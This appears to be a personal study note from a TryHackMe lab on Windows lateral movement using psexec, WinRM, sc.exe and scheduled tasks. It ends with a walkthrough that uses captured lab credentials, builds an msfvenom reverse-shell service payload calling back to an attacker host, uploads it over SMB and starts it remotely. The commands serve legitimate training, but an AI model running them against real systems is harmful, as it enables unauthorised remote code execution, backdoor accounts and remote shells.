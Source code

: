## Psexec (psexesvc.exe)
- **Ports:** 445/TCP (SMB)
- **Required Group Memberships:** Administrators

Psexec has been the go-to method when needing to execute processes remotely for years. It allows an administrator user to run commands remotely on any PC where he has access. Psexec is one of many Sysinternals Tools and can be downloaded [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec).

The way psexec works is as follows:
1. *Connect to Admin$ share and upload a service binary*. Psexec uses `psexesvc.exe` as the name.
2. *Connect to the service control manager* to create and run a service named *PSEXESVC* and associate the service binary with `C:\Windows\psexesvc.exe`.
3. *Create some named pipes* to handle *stdin/stdout/stderr*.

![](Pasted%20image%2020241116001403.png)

To run psexec, we only need to supply the required *administrator credentials* for the remote host and the *command we want to run.*
```shell-session
psexec64.exe \\{MACHINE_IP} -u {Administrator} -p {Mypass123} -i cmd.exe
```


## WinRM (winrs.exe)
- **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol *used to send Powershell commands to Windows hosts* remotely. Most *Windows Server installations have WinRM enabled by default*, making it an attractive attack vector.

To connect to a remote Powershell session from the command line, we can use the following command:
```shell-session
winrs.exe -u:{Administrator} -p:{Mypass123} -r:target cmd
```

We can achieve the same from Powershell, but to pass different credentials, we will need to create a *PSCredential* object:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Once we have our *PSCredential* object, we can create an interactive session using the `Enter-PSSession` cmdlet:
```powershell
Enter-PSSession -Computername {TARGET} -Credential $credential
```

Powershell also includes the `Invoke-Command` cmdlet, which runs ScriptBlocks remotely via WinRM. Credentials must be passed through a *PSCredential* object as well:
```powershell
Invoke-Command -Computername {TARGET} -Credential $credential -ScriptBlock {whoami}
```

## sc (sc.exe)
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCE/RPC)
    - 445/TCP (RPC over SMB Named Pipes)
    - 139/TCP (RPC over SMB Named Pipes)
- **Required Group Memberships:** Administrators

Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with *sc.exe*, a standard tool available in Windows. When using sc, it will try to connect to the *Service Control Manager (SVCCTL)* remote service program through *RPC* in several ways:

1. *A connection attempt will be made using RPC/DCE.* 
	   The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. 
		   The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
	 ![](Pasted%20image%2020241116004617.png)
2. *If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS)*.
	 ![](Pasted%20image%2020241116004902.png)

We can create and start a service named "THMservice" using the following commands:
```shell-session
sc.exe \\{TARGET} create {THMservice} binPath= "net user {munra Pass123} /add" start= auto
sc.exe \\{TARGET} start {THMservice}
```
The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

To stop and delete the service, we can then execute the following commands:
```shell-session
sc.exe \\{TARGET} stop {THMservice}
sc.exe \\{TARGET} delete {THMservice}
```

## Scheduled Tasks
 You can create and run one remotely with schtasks, available in any Windows installation. To create a task named THMtask1, we can use the following commands:
 ```shell-session
schtasks /s {TARGET} /RU "SYSTEM" /create /tn {"THMtask1"} /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s {TARGET} /run /TN {"THMtask1"} 
```

We set the schedule type (`/sc`) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (`/sd`) and starting time (`/st`) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making this *a blind attack.*

Finally, to delete the scheduled task, we can use the following command:
```shell-session
schtasks /S {TARGET} /TN {"THMtask1"} /DELETE /F
```


## Example
Connecting to *THMJMP2* using the credentials assigned:
`ssh za\\<AD Username>@thmjmp2.za.tryhackme.com`

For this exercise, we will assume we have already captured some credentials with administrative access:
- **User:** ZA.TRYHACKME.COM\t1_leonard.summers
- **Password:** EZpass4ever

We'll show how to use those credentials to move laterally to *THMIIS* using `sc.exe`. Feel free to try the other methods, as they all should work against *THMIIS*.
	![](Pasted%20image%2020241116021722.png)
While we have already shown how to use sc to create a user on a remote system (by using `net user`), we can also upload any binary we'd like to execute and associate it with the created service. However, if we try to run a reverse shell using this method, we will notice that the reverse shell disconnects immediately after execution. The reason for this is that service executables are different to standard .exe files, and therefore non-service executables will end up being killed by the service manager almost immediately. Luckily for us, msfvenom supports the `exe-service` format, which will encapsulate any payload we like inside a fully functional service executable, preventing it from getting killed.

- generate the payload using msfvenom on our machine
```
user@AttackBox$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST={ATTACKER_IP} LPORT={4445} -o {myservice.exe}
```

-  use *t1_leonard.summers credentials* to upload our payload to the *ADMIN$* share of *THMIIS* using *smbclient* from our AttackBox:
```
user@AttackBox$ smbclient -c 'put {myservice.exe}' -U {user} -W ZA {'//thmiis.za.tryhackme.com/admin$/'} {password}
```

- starting a nc listener on specified port:
```shell-session
user@AttackBox$ nc -nvlp 4445
```

- create&start a new service remotely by using sc, associating it with our uploaded binary on THMJMP2: 
```shell-session
C:\> sc.exe \\thmiis.za.tryhackme.com create {THMservice-3249} binPath= "%windir%\{myservice.exe}" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start {THMservice-3249}
```

- receive connection on attacking machine